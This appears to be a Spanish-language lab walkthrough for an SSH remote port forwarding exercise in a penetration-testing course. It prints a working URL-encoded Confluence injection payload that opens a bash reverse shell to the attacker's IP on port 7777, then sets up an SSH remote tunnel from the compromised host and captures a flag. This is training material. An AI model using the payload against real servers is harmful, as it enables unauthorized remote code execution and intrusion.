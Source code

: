 # Walk: Port Redirection and SSH Tunneling - SSH Remote Port Forwarding - VM Group 2

## Fecha: 22/03/2025
## Host: PGDATABASE01 | CONFLUENCE01
## IP: 10.4.xxx.215 |  192.168.xxx.63
## Objetivo
2.  Start VM Group 2. Download the **ssh_remote_client** binary from the _Resources_ section. If you're running the _aarch64_ build of Kali, download the **ssh_remote_client_aarch64** binary. Create an SSH remote port forward on CONFLUENCE01 that allows you to run the binary against port 4444 on PGDATABASE01 from your Kali machine.

Note: the source files used to build the **ssh_remote_client** and **ssh_remote_client_aarch64** binaries can be downloaded from **/exercises/client_source.zip** on CONFLUENCE01.
## Herramientas
1. ssh
2. systemctl
## Procedimiento y comandos
#### Paso 1: Cambiamos el puerto en el payload a 7777
1. Cambiamos 
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.3.3-SSH-Remote-PortForwarding]
└─# curl -v http://192.168.xxx.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.xxx/7777%200%3E%261%27%29.start%28%29%22%29%7D/
*   Trying 192.168.xxx.63:8090...
* Connected to 192.168.xxx.63 (192.168.xxx.63) port 8090
* using HTTP/1.x
> GET /%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.xxx/7777%200%3E%261%27%29.start%28%29%22%29%7D/ HTTP/1.1
> Host: 192.168.xxx.63:8090
> User-Agent: curl/8.12.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 302 
< Cache-Control: no-store
< Expires: Thu, 01 Jan 1970 00:00:00 GMT
< X-Confluence-Request-Time: 1742624159485
< Set-Cookie: JSESSIONID=6594815074A9A85EA7700F67BB08804B; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< Location: /login.action?os_destination=%2F%24%7Bnew+javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new+java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.45.xxx%2F7777+0%3E%261%27%29.start%28%29%22%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Sat, 22 Mar 2025 06:16:01 GMT
< 
* Connection #0 to host 192.168.xxx.63 left intact
```
2. Iniciamos el servicio
`sudo systemctl start ssh`
#### Paso 2: Configuramos el tunel desde _CONFLUENCE_
1. Nos conectamos a CONFLUENCE como en las maquinas anteriores:
```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
</bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ ssh -N -R 127.0.0.1:2345:10.4.xxx.215:4444 kali@192.168.45.xxx
ssh -N -R 127.0.0.1:2345:10.4.xxx.215:4444 kali@192.168.45.xxx
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.45.198 (192.168.45.xxx)' can't be established.
ECDSA key fingerprint is SHA256:A44ctMNCG48aRHny80MXOphfYTv3LcRjemm+4lxN2gw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.45.xxx's password: 
```
#### Paso 3: Obtenemos el flag
1. Desde kali comprobamos la configuracion del tunel:
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.3.3-SSH-Remote-PortForwarding]
└─# ss -ntplu | grep 2345
tcp   LISTEN 0      128                         127.0.0.1:2345       0.0.0.0:*    users:(("sshd-session",pid=7867,fd=8))                                                                                                                                                                                        
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.3.3-SSH-Remote-PortForwarding]
└─# ./ssh_remote_client -i 127.0.0.1 -p 2345     
Connecting to 127.0.0.1:2345
Flag: "OS{85f6***************************3e006}"
```
